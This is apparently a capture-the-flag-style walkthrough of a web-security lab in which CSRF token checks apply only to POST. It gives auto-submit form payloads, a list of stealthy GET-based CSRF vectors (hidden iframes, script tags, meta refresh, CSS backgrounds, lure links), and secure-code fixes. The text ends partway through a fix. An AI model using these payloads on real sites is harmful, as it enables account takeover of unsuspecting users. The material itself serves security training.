

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF vulnerability with flawed token validation
- 🎯 Understand request method-dependent validation weakness
- 🔄 Convert POST request to GET to bypass CSRF protection
- 💉 Craft GET-based CSRF attack without token
- 🚀 Use exploit server to deliver attack payload
- 🎪 Auto-submit form to change victim's email
- 🚨 Bypass CSRF token validation via GET method
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **CSRF where token validation depends on request method** is a critical vulnerability where the application implements CSRF protection (tokens) but only enforces validation for specific HTTP methods (typically POST). When the same endpoint accepts alternative methods (like GET) and processes them identically, attackers can bypass token validation entirely by simply changing the request method. This represents a common implementation flaw where developers assume CSRF protection without properly securing all request methods.

### 📊 **The Vulnerability**

**Normal POST Request with CSRF Protection:**

```HTTP
User changes email via POST:
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=abc123xyz
Content-Type: application/x-www-form-urlencoded

email=newemail@example.com&csrf=a8f7d9e2c1b4h6j3k5
         ↓
Server receives request
         ↓
Server validates CSRF token:
  1. Check if csrf parameter present ✓
  2. Verify token matches session ✓
  3. Token valid? YES ✓
         ↓
Email changed successfully! ✓
         ↓
CSRF protection working! 🛡️
```

**Attempting POST CSRF Attack (FAILS):**

```HTTP
Attacker crafts POST request without valid token:
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=victim_session
Content-Type: application/x-www-form-urlencoded

email=attacker@evil.com&csrf=INVALID_TOKEN
         ↓
Server validates CSRF token:
  1. Check if csrf parameter present ✓
  2. Verify token matches session ❌
  3. Token invalid! REJECT REQUEST! ❌
         ↓
Error: "Invalid CSRF token"
         ↓
Attack blocked! ✓
         ↓
CSRF protection working! 🛡️
```

**Successful GET-based Bypass Attack:**

```HTTP
Attacker discovers endpoint accepts GET:
         ↓
GET /my-account/change-email?email=attacker@evil.com HTTP/2
Cookie: session=victim_session
         ↓
Server receives GET request
         ↓
Server checks request method: GET
         ↓
CSRF validation logic:
  if (method == "POST") {
      validateCSRFToken();  // Only validates POST! ❌
  }
  // GET requests skip validation entirely! 💣
         ↓
No CSRF token validation for GET! ⚠️
         ↓
Email parameter processed directly
         ↓
Email changed to attacker@evil.com! 💥
         ↓
CSRF protection bypassed! 🎯
```

**Key Insight:**

```r
Why method-based validation fails:

1. Flawed validation logic:
   └── Developer assumes: "State changes only via POST"
       └── Implements: "Only validate CSRF tokens on POST"
           └── Reality: Endpoint accepts both GET and POST! ⚠️
               └── GET requests bypass all CSRF checks! 💣

2. HTTP Method Misconceptions:
   ├── REST conventions: GET = read-only, POST = state change
   ├── Developer assumption: "GET won't change state"
   └── Reality: HTTP methods are just conventions!
       └── Nothing prevents GET from changing state
           └── If server processes GET identically to POST
               └── GET becomes attack vector! 💥

3. The dangerous pattern:
   └── Code structure:
       if ($_SERVER['REQUEST_METHOD'] == 'POST') {
           validateCSRFToken();  // Only validates POST
       }
       // Process email change (works for ANY method!)
       updateEmail($_REQUEST['email']);  // Accepts GET or POST
       
   └── Problem:
       ├── CSRF validation: Method-specific ❌
       └── Email processing: Method-agnostic ✓
           └── Mismatch creates vulnerability! 💣

4. Why this is common:
   ├── Copy-paste security code
   ├── Incomplete understanding of CSRF
   ├── Assumptions about REST conventions
   ├── Legacy code accepting multiple methods
   └── Security as afterthought ⚠️

5. Attack simplification:
   └── POST CSRF requires:
       ├── Form submission
       ├── Auto-submit JavaScript
       └── More complex HTML
   
   └── GET CSRF requires:
       ├── Simple IMG tag: 
       ├── Link: <a href="...?email=evil">
       └── Or basic form with method="GET"
           └── Much simpler to exploit! 🔥

The vulnerability chain:
└── Endpoint accepts both GET and POST
    └── CSRF validation only checks POST requests
        └── GET requests processed without validation
            └── Attacker changes POST to GET
                └── CSRF token no longer required
                    └── Attack succeeds without any token! 💣

Real-world developer thought process:
└── "I need CSRF protection for email changes"
    └── "Email changes come via POST form"
        └── "I'll add CSRF validation to POST handler"
            └── "Done! Secure!" ✓
                └── Never tested GET method! ❌
                    └── Vulnerability introduced! ⚠️
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page
3. 📝 Note credentials: `wiener:peter`

**Lab description:**

```
Lab: CSRF where token validation depends on request method

Vulnerability:
└── Email change functionality has CSRF protection
    └── But only validates tokens for certain request methods
        └── Can be bypassed! 💣

Goal:
└── Use exploit server to host CSRF attack
    └── Change victim's email address
        └── Without valid CSRF token! 🎯
```

---

### 🔐 **Step 2 — Login to Account**

1. 🖱️ Click **"My account"**
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 🔍 **Step 3 — Setup Burp Suite Interception**

1. 🌐 Open Burp Suite
2. ⚙️ Ensure proxy is configured
3. 🔄 Turn **Intercept ON**

**Burp Proxy tab:**

```
┌────────────────────────────────────┐
│ Burp Suite                         │
├────────────────────────────────────┤
│ Proxy │ Intruder │ Repeater │...   │
├────────────────────────────────────┤
│                                    │
│ Intercept: [ON]  [Forward]  [Drop] │
│                                    │
└────────────────────────────────────┘
```

---

### 📨 **Step 4 — Capture Email Change Request**

1. 🌐 Go to My Account page
2. ✏️ Enter test email: `test@example.com`
3. 🚀 Click **"Update email"**
4. 👀 Burp intercepts the request

**Intercepted POST request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a8b00f003d4c172c0b14f9f00ea009e.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
User-Agent: Mozilla/5.0...
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

email=test%40example.com&csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
```

**Analysis:**

```HTTP
Key observations:

1. Method: POST
   └── Standard for state-changing operations

2. Endpoint: /my-account/change-email
   └── Target for our attack

3. Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
   └── Session authentication
   └── Automatically included by browser

4. Parameters:
   ├── email=test%40example.com
   │   └── Email we want to change to
   │
   └── csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
       └── CSRF token present! ✓
       └── This provides CSRF protection... or does it? 🤔

What we see:
✓ CSRF token is present
✓ Looks like CSRF protection is implemented
💡 But is it properly implemented for ALL methods?
```

---

### 🔄 **Step 5 — Send to Burp Repeater**

1. 🖱️ **Right-click** on the intercepted request
2. 📋 Select **"Send to Repeater"**
3. 🔄 Click **"Forward"** to let the original request through
4. 🔄 Turn **Intercept OFF**
5. 📑 Switch to **"Repeater"** tab

**Burp Repeater:**

```
┌────────────────────────────────────────────────────────┐
│ Repeater                                               │
├────────────────────────────────────────────────────────┤
│ Request:                          Response:            │
│ ┌──────────────────────────┐     ┌──────────────────┐  │
│ │ POST /my-account/        │     │                  │  │
│ │ change-email HTTP/2      │     │                  │  │
│ │ Host: ...                │     │                  │  │
│ │ Cookie: session=...      │     │                  │  │
│ │                          │     │                  │  │
│ │ email=test@example.com&  │     │                  │  │
│ │ csrf=TK8fN2jQ...         │     │                  │  │
│ └──────────────────────────┘     └──────────────────┘  │
│                                                        │
│ [Send] [Cancel]                                        │
└────────────────────────────────────────────────────────┘
```

---

### 🧪 **Step 6 — Test CSRF Token Validation**

**Test 1: Valid CSRF token**

1. 🚀 Click **"Send"** in Repeater
2. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**Test 2: Invalid CSRF token**

1. ✏️ Modify the CSRF token value:
    

```
Change from: csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
Change to:   csrf=INVALID_TOKEN_VALUE
```

    
2. 🚀 Click **"Send"**
    
3. 👀 Observe response
    

**Expected response:**

```HTTP
HTTP/2 400 Bad Request

Invalid CSRF token
```

**Confirmation:**

```
✅ CSRF token validation is working for POST
✅ Invalid token = Request rejected
✅ Protection appears to be functioning
💡 But what about other HTTP methods?
```

---

### 🔀 **Step 7 — Convert POST to GET**

**This is the key discovery step!**

1. 🖱️ **Right-click** anywhere in the request area
2. 📋 Select **"Change request method"**

**Burp automatically converts:**

```HTTP
BEFORE (POST):
POST /my-account/change-email HTTP/2
Host: 0a8b00f003d4c172c0b14f9f00ea009e.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

email=test%40example.com&csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA

         ↓ "Change request method" ↓

AFTER (GET):
GET /my-account/change-email?email=test%40example.com&csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA HTTP/2
Host: 0a8b00f003d4c172c0b14f9f00ea009e.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
```

**What changed:**

```
POST → GET transformation:

1. Method changed:
   └── POST → GET

2. Parameters moved:
   └── From request body
       └── To query string (after ?)

3. Headers removed:
   └── Content-Type (not needed for GET)
   └── Content-Length (not needed for GET)

4. Structure:
   POST: /path + body with parameters
   GET:  /path?param1=value1&param2=value2

Everything else stays the same:
✓ Session cookie included
✓ Same endpoint
✓ Same parameters
✓ Still has CSRF token in URL
```

---

### 🎯 **Step 8 — Test GET Request with Valid Token**

1. 🚀 Click **"Send"** on the GET request
2. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**Key finding:**

```
✅ GET request accepted!
✅ Email changed successfully
✅ Server processes GET identically to POST
💡 Endpoint accepts both methods!
```

---

### 💣 **Step 9 — Test GET Without CSRF Token**

**This is the critical test!**

1. ✏️ Remove the CSRF parameter entirely:

```
BEFORE:
GET /my-account/change-email?email=test%40example.com&csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA HTTP/2

         ↓ Remove &csrf=... ↓

AFTER:
GET /my-account/change-email?email=test2%40example.com HTTP/2
```

2. 🚀 Click **"Send"**
3. 👀 Observe response carefully

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**VULNERABILITY CONFIRMED!**

```
🎯 Critical Discovery:

✅ GET request without CSRF token = ACCEPTED!
✅ Email changed successfully!
❌ No CSRF token validation for GET method!

The vulnerability:
└── Server validates CSRF tokens for POST ✓
    └── But NOT for GET! ❌
        └── We can bypass CSRF protection
            └── By simply using GET instead of POST! 💣

Server-side logic flaw:
if (method == "POST") {
    validateCSRFToken();  // Validates token
}
// Process email change regardless of method
updateEmail(emailParam);  // No validation for GET!

This is the vulnerability we'll exploit! 🎯
```

---

### 📝 **Step 10 — Document the Exploit Parameters**

**Working exploit request:**

```HTTP
GET /my-account/change-email?email=ATTACKER_EMAIL HTTP/2
Host: 0a8b00f003d4c172c0b14f9f00ea009e.web-security-academy.net
Cookie: session=VICTIM_SESSION
```

**What we need for CSRF attack:**

```
Required components:
├── Method: GET (no CSRF validation)
├── Endpoint: /my-account/change-email
├── Parameter: email=attacker@evil.com
└── No CSRF token needed! ✓

Attack vector:
└── Simple HTML form with method="GET"
    └── Or even simpler: IMG tag!
        └── Browser sends GET automatically
            └── Includes victim's session cookie
                └── Email changed! 💥
```

---

### 🎨 **Step 11 — Generate CSRF PoC**

**Method A: Using Burp Professional**

1. 🖱️ Right-click on the GET request (without csrf parameter)
2. 📋 Select **"Engagement tools → Generate CSRF PoC"**
3. ✅ Check **"Include auto-submit script"**
4. 🔄 Click **"Regenerate"**

**Burp generates:**

```html
<html>
  <body>
    <form action="https://0a8b00f003d4c172c0b14f9f00ea009e.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="test@example.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Note:** Burp defaults to GET when generating from GET request!

5. 📋 Click **"Copy HTML"**

---

**Method B: Manual HTML Creation**

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

**Important notes:**

```
Form method:
└── Default form method = GET ✓
    └── When no method attribute specified
        └── Browser uses GET by default
            └── Perfect for our attack! 🎯

Alternatively, explicit GET:
<form method="GET" action="...">
    └── Same result as no method attribute

CSRF token:
└── NO csrf parameter in form! ✓
    └── We discovered GET doesn't validate it
        └── Including it is unnecessary
            └── Simpler exploit! ✓

Attack flow:
1. Victim visits our exploit page
2. Form with GET method renders
3. Auto-submit script executes
4. Browser sends GET request
5. Session cookie included automatically
6. No CSRF token validation
7. Email changed! 💥
```

---

### 🌐 **Step 12 — Access Exploit Server**

1. 🔙 Go back to lab page
2. 🖱️ Click **"Go to exploit server"**

**Exploit server interface:**

```
┌────────────────────────────────────────────────────────┐
│ Exploit Server                                         │
├────────────────────────────────────────────────────────┤
│                                                        │
│ Response headers:                                      │
│ HTTP/1.1 200 OK                                        │
│ Content-Type: text/html; charset=utf-8                 │
│                                                        │
│ Body:                                                  │
│ [______________________________________]               │
│ [______________________________________]               │
│                                                        │
│ [Store] [View exploit] [Deliver exploit to victim]     │
└────────────────────────────────────────────────────────┘
```

---

### 📝 **Step 13 — Create Exploit HTML**

**Paste into Body field:**

```html
<form action="https://0a8b00f003d4c172c0b14f9f00ea009e.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test123@test.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

**Replace:**

- `0a8b00f003d4c172c0b14f9f00ea009e` with YOUR lab ID
- `test123@test.com` with your test email

**Understanding the exploit:**

```html
<form action="https://[LAB-ID].web-security-academy.net/my-account/change-email">
    
    Form attributes:
    ├── action="..." → Target URL
    ├── No method attribute → Defaults to GET! ✓
    └── No csrf parameter → Not needed for GET! ✓
    
    <input type="hidden" name="email" value="test123@test.com">
    
    Hidden input:
    ├── type="hidden" → Invisible to user
    ├── name="email" → Parameter name
    └── value="..." → Attacker's email
        └── Becomes: ?email=test123@test.com
    
</form>

<script>
    document.forms[0].submit();
</script>

Auto-submit:
├── Selects first form
├── Submits immediately
└── No user interaction needed!

Resulting GET request:
GET /my-account/change-email?email=test123@test.com
Cookie: session=VICTIM_SESSION_COOKIE

Server receives:
├── Valid session cookie ✓
├── Email parameter ✓
├── No CSRF token ❌ (but GET doesn't validate it!)
└── Email changed! 💥
```

---

### 💾 **Step 14 — Store and Test Exploit**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**

**What happens:**

```
Exploit page loads
         ↓
Form element created with GET method
         ↓
JavaScript executes immediately
         ↓
Form.submit() called
         ↓
Browser sends GET request:
  GET /my-account/change-email?email=test123@test.com
  Cookie: session=YOUR_SESSION
         ↓
Server processes GET request
         ↓
No CSRF validation for GET! ❌
         ↓
Email updated to test123@test.com ✓
         ↓
Redirected to My Account page
```

**Verification:**

```
Check My Account page:
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: test123@test.com  ← Changed!│
│                                    │
└────────────────────────────────────┘

✅ Email changed successfully!
✅ Exploit works on yourself!
💡 Now prepare for victim delivery!
```

---

### 🔄 **Step 15 — Update Email for Victim**

**Important:** Use different email for victim!

1. 🔙 Go back to exploit server
2. ✏️ Change email value:

```html
<form action="https://0a8b00f003d4c172c0b14f9f00ea009e.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

3. 💾 Click **"Store"**

**Why different email:**

```
Problem:
└── Already changed your email to test123@test.com
    └── That email is now "taken"
        └── Victim cannot use same email

Solution:
└── Use unique email for victim
    └── hacker@evil.com
    └── pwned@attacker.com
    └── Or any unused email address

This ensures victim's email change succeeds! ✓
```

---

### 🎯 **Step 16 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution:**

```HTTP
Lab simulation starts:
         ↓
1. Simulated victim (Carlos) is logged in
   └── Has valid session for vulnerable site
   
2. Victim visits your exploit URL
   └── https://exploit-XXXXX.exploit-server.net/
   
3. Exploit page loads in victim's browser
   └── Form element created
   
4. Auto-submit executes
   └── document.forms[0].submit()
   
5. Browser sends GET request:
   GET /my-account/change-email?email=hacker@evil.com HTTP/2
   Host: 0a8b00f003d4c172c0b14f9f00ea009e.web-security-academy.net
   Cookie: session=VICTIM_SESSION_COOKIE_HERE
          ↑
   Automatically included! 💣
   
6. Server receives request:
   ├── Check method: GET
   ├── CSRF validation: SKIPPED! ❌
   ├── Session valid: YES ✓
   └── Process email change: YES ✓
   
7. Victim's email changed:
   └── FROM: carlos@...
   └── TO: hacker@evil.com
   
8. Lab validation:
   └── Checks victim's email was changed
   └── Confirms exploit succeeded
   └── Lab solved! 🎉
```

---

### ✅ **Step 17 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited a       │
│  CSRF vulnerability by bypassing    │
│  method-dependent token validation. │
│                                     │
│  Lab: CSRF where token validation   │
│       depends on request method     │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and login
         → wiener:peter
         ↓
Step 2: Navigate to My Account
         → Observe email change form
         ↓
Step 3: Setup Burp Suite
         → Intercept traffic
         ↓
Step 4: Capture POST email change request
         → POST /my-account/change-email
         → email=test@example.com&csrf=TOKEN
         ↓
Step 5: Send to Repeater
         ↓
Step 6: Test CSRF token validation
         → Valid token: Works ✓
         → Invalid token: Rejected ✓
         → CSRF protection present for POST
         ↓
Step 7: Convert POST to GET
         → Use "Change request method"
         → Burp converts to GET
         ↓
Step 8: Test GET with valid token
         → GET ...?email=...&csrf=TOKEN
         → Works! ✓
         ↓
Step 9: Test GET WITHOUT token
         → GET ...?email=test2@example.com
         → NO csrf parameter
         → Still works! 💥
         ↓
Step 10: Vulnerability confirmed!
         → GET method doesn't validate CSRF token ❌
         → Bypass discovered! 🎯
         ↓
Step 11: Generate CSRF PoC
         → Form with GET method (or default)
         → No csrf parameter needed
         → Auto-submit script
         ↓
Step 12: Upload to exploit server
         → Paste HTML in Body
         → Store exploit
         ↓
Step 13: Test on yourself
         → View exploit
         → Email changed ✓
         ↓
Step 14: Update email for victim
         → Use different unused email
         → Store again
         ↓
Step 15: Deliver to victim
         → Click "Deliver exploit to victim"
         → GET request sent with victim's session
         → No CSRF validation
         → Email changed! 💥
         ↓
Step 16: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Method-Dependent Validation Flaw**

```javascript
The vulnerable server-side code:

// ❌ VULNERABLE - Only validates POST

function handleEmailChange(request) {
    // Only validate CSRF for POST requests
    if (request.method === 'POST') {
        if (!validateCSRFToken(request.csrf)) {
            return error('Invalid CSRF token');
        }
    }
    
    // Process email change for ANY method
    var newEmail = request.email;  // From GET or POST
    updateUserEmail(currentUser, newEmail);
    return success('Email updated');
}

The problem:
├── CSRF validation: Method-specific (POST only) ❌
└── Email processing: Method-agnostic (any method) ✓
    └── Mismatch creates vulnerability! 💣

Attack exploitation:
└── Attacker uses GET instead of POST
    └── Skips CSRF validation entirely
        └── Email changed without token! 💥

Why developers make this mistake:
└── Common pattern:
    1. "POST is for state changes"
    2. "Add CSRF to POST handler"
    3. "Done!" ✓
    
    └── Never considered:
        ├── Does endpoint accept other methods?
        ├── Are other methods validated?
        └── Can GET trigger state changes?
            └── Oversight creates vulnerability! ⚠️
```

---

### **HTTP Method Confusion**

```r
HTTP Method Semantics vs Reality:

REST Conventions (theoretical):
├── GET: Safe, idempotent, read-only
├── POST: Unsafe, creates resources
├── PUT: Unsafe, updates resources
└── DELETE: Unsafe, removes resources

Real-World Implementation (practical):
└── Server can process ANY method however it wants!
    ├── GET CAN change state (bad practice but possible)
    ├── POST CAN be read-only
    └── Methods are conventions, not enforcement!

The misconception:
Developer thinks: "GET is read-only by definition"
Reality: "GET is only read-only if server makes it so"

Example vulnerable endpoint:
// Developer intent: POST for email changes
app.post('/change-email', (req, res) => {
    validateCSRF(req.body.csrf);
    updateEmail(req.body.email);
});

// But server also has generic handler:
app.use('/change-email', (req, res) => {
    // Processes GET too!
    var email = req.query.email || req.body.email;
    updateEmail(email);  // No CSRF check!
});

Result:
├── POST /change-email → CSRF validated ✓
└── GET /change-email → No CSRF validation ❌
    └── Vulnerability! 💣
```

---

### **Why GET is More Dangerous for CSRF**

```HTML
GET-based CSRF vs POST-based CSRF:

POST CSRF Attack (more complex):
└── Requires HTML form:
    <form method="POST" action="...">
        <input name="email" value="evil">
    </form>
    <script>form.submit();</script>
    
    └── Components needed:
        ├── Form element
        ├── Hidden inputs
        ├── JavaScript for auto-submit
        └── User visits attack page

GET CSRF Attack (much simpler):
└── Multiple simple vectors:

    1. IMG tag (invisible):
       
       └── Loads automatically
       └── No JavaScript needed
       └── Completely invisible! 👻
    
    2. Script tag:
       <script src="https://victim.com/change-email?email=evil">
       </script>
       └── Loads automatically
       └── No user interaction
    
    3. Link tag:
       <link rel="stylesheet" href="https://victim.com/change-email?email=evil">
       └── Loads in background
       
    4. Simple link:
       <a href="https://victim.com/change-email?email=evil">
       Click here!
       </a>
       └── Social engineering
       └── User clicks = attack succeeds
    
    5. Redirect:
       <meta http-equiv="refresh" 
             content="0; url=https://victim.com/change-email?email=evil">
       └── Automatic redirect
       └── No interaction needed

Why GET is worse:
✓ Simpler to implement
✓ Multiple attack vectors
✓ Can be completely invisible
✓ No JavaScript required
✓ Works in email (IMG tags)
✓ Works in forums, comments, etc.
└── Much more dangerous! 💣
```

---

### **The Defense Mechanism Failure**

```r
How CSRF protection should work:

Complete CSRF Protection:
└── For EVERY state-changing endpoint:
    1. Generate unique token per session
    2. Include token in form
    3. Validate token on server
    4. FOR ALL HTTP METHODS! ✓

Vulnerable implementation:
// ❌ WRONG - Method-specific validation
if (method == "POST") {
    validateCSRF();
}
processRequest();  // Processes GET too!

Secure implementation:
// ✅ CORRECT - Always validate state changes
if (isStateChangingOperation()) {
    validateCSRF();  // Regardless of method
}
processRequest();

OR even better:
// ✅ CORRECT - Reject unsafe methods for GET
if (method == "GET" && isStateChangingOperation()) {
    return error('GET not allowed for state changes');
}
if (method == "POST") {
    validateCSRF();
}
processRequest();

Best practice:
└── State-changing operations:
    ├── ONLY accept POST/PUT/DELETE
    ├── ALWAYS validate CSRF tokens
    ├── REJECT GET for state changes
    └── Return error for unexpected methods
        └── Defense in depth! 🛡️
```

---

## 🚀 **Attack Variations**

### **Variation 1: IMG Tag Attack (Simplest)**

```r
<!-- Invisible CSRF attack -->


Why this works:
├── Browser loads IMG automatically
├── Sends GET request with cookies
├── Completely invisible to user
└── Can be embedded anywhere:
    ├── HTML emails
    ├── Forum posts
    ├── Chat messages
    └── Compromised websites

Attack delivery:
└── Send email with malicious IMG
    └── Victim opens email
        └── IMG loads in background
            └── Email changed! 💥
                └── User never sees anything! 👻
```

---

### **Variation 2: Script Tag Attack**

```r
<!-- CSRF via script tag -->
<script src="https://vulnerable.com/my-account/change-email?email=pwned@evil.com"></script>

How it works:
├── Browser loads script source
├── Sends GET request
├── Includes cookies automatically
└── Ignores response (not valid JavaScript)

Benefits:
├── Automatic loading
├── No user interaction
├── Works in most contexts
└── Difficult to detect
```

---

### **Variation 3: Multiple Actions Chain**

```r
<!-- Chain multiple CSRF attacks -->


Attack sequence:
1. Change email to attacker's
2. Change password to known value
3. Add attacker as admin
4. Complete account takeover! 💣

Timing:
└── All images load simultaneously
    └── Multiple state changes
        └── Comprehensive compromise! ⚠️
```

---

### **Variation 4: Social Engineering Link**

```r
<!-- Disguised as legitimate link -->
<a href="https://vulnerable.com/change-email?email=evil@attacker.com">
    Click here to claim your $1000 prize!
</a>

How it works:
├── Looks like legitimate link
├── User clicks voluntarily
├── GET request sent
└── Email changed!

Enhancement:
<a href="https://vulnerable.com/change-email?email=evil@attacker.com"
   target="_blank">
    View your invoice
</a>
└── Opens in new tab
    └── Original page stays open
        └── User less suspicious! 🎭
```

---

### **Variation 5: Automatic Redirect**

```r
<!-- Meta refresh redirect -->
<meta http-equiv="refresh" 
      content="0; url=https://vulnerable.com/change-email?email=attacker@evil.com">

<h1>Loading your content...</h1>

User experience:
└── Page appears to be loading
    └── Actually executing CSRF
        └── Redirects to vulnerable site
            └── Email changed during "loading"
                └── Then redirects back
                    └── User none the wiser! 👻
```

---

### **Variation 6: iframe Hidden Attack**

```r
<!-- Hidden iframe CSRF -->
<iframe style="display:none" 
        src="https://vulnerable.com/change-email?email=evil@hack.com">
</iframe>

Benefits:
├── Completely hidden
├── Loads automatically
├── No page navigation
├── User stays on attacker's page
└── Very stealthy! 👻

Enhanced version:
<iframe style="width:0;height:0;border:none;position:absolute;left:-1000px"
        src="https://vulnerable.com/change-email?email=evil@hack.com">
</iframe>
└── Multiple hiding techniques
    └── Even harder to detect!
```

---

### **Variation 7: CSS Background Image**

```r
<!-- CSRF via CSS background -->
<div style="background-image: url('https://vulnerable.com/change-email?email=attacker@evil.com')">
    <!-- Content here -->
</div>

How it works:
├── CSS loads background image
├── Sends GET request
├── Cookies included
└── Email changed!

Can also use:
<style>
body {
    background: url('https://vulnerable.com/change-email?email=evil@evil.com');
}
</style>
```

---

### **Variation 8: Multiple Method Testing**

**Test all HTTP methods for bypass:**

```r
GET /change-email?email=test1@test.com
POST /change-email [email=test2@test.com]
PUT /change-email [email=test3@test.com]
DELETE /change-email?email=test4@test.com
PATCH /change-email [email=test5@test.com]
OPTIONS /change-email?email=test6@test.com
HEAD /change-email?email=test7@test.com

Test each method:
└── Which bypass CSRF validation?
    ├── GET: Bypasses ✓ (this lab)
    ├── HEAD: Might bypass
    ├── PUT: Often forgotten
    └── Others: Test them all!
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Validate CSRF for ALL Methods**

```r
// ✅ SECURE - Validate regardless of method

function handleEmailChange($request) {
    // ALWAYS validate CSRF token
    if (!validateCSRFToken($request->csrf)) {
        http_response_code(403);
        die('Invalid CSRF token');
    }
    
    // Get email from appropriate source
    $email = $request->method === 'POST' 
        ? $request->post['email'] 
        : $request->query['email'];
    
    updateUserEmail($email);
    return success('Email updated');
}

Key improvements:
✅ Validation applies to ALL methods
✅ Token always required
✅ No method-based bypass possible
✅ Secure by default
```

---

### **Fix 2: Reject GET for State Changes**

```r
// ✅ SECURE - Only allow POST for state changes

app.use('/my-account/change-email', (req, res) => {
    // Reject GET method entirely
    if (req.method === 'GET') {
        return res.status(405).send('Method not allowed');
    }
    
    // Only POST allowed beyond this point
    if (req.method !== 'POST') {
        return res.status(405).send('Only POST allowed');
    }
    
    // Validate CSRF token
    if (!validateCSRFToken(req.body.csrf)) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // Process email change
    updateEmail(req.body.email);
    res.redirect('/my-account');
});

Benefits:
✅ GET requests explicitly rejected
✅ Only POST allowed for state changes
✅ Follows REST conventions
✅ Clear error messages
✅ Defense in depth
```

---

### **Fix 3: Use Framework CSRF Protection**

```r
# ✅ SECURE - Framework handles all methods

# Django example
from django.views.decorators.csrf import csrf_protect
from django.views.decorators.http import require_http_methods

@csrf_protect
@require_http_methods(["POST"])  # Only POST allowed
def change_email(request):
    # Django validates CSRF automatically
    # GET requests return 405 Method Not Allowed
    
    email = request.POST.get('email')
    request.user.email = email
    request.user.save()
    return redirect('account')

# Template:
<form method="POST" action="">
    
    <input type="email" name="email">
    <button type="submit">Update</button>
</form>


# Laravel example
Route::post('/change-email', function (Request $request) {
    // Laravel validates CSRF automatically
    // Only POST accepted, GET returns 405
    
    auth()->user()->update([
        'email' => $request->email
    ]);
    return redirect('/account');
})->middleware(['auth', 'verified']);

Benefits:
✅ Framework enforces method restrictions
✅ Automatic CSRF validation
✅ Less developer error
✅ Tested and proven
✅ Security by default
```

---

### **Fix 4: SameSite Cookies**

```r
# ✅ SECURE - Use SameSite attribute

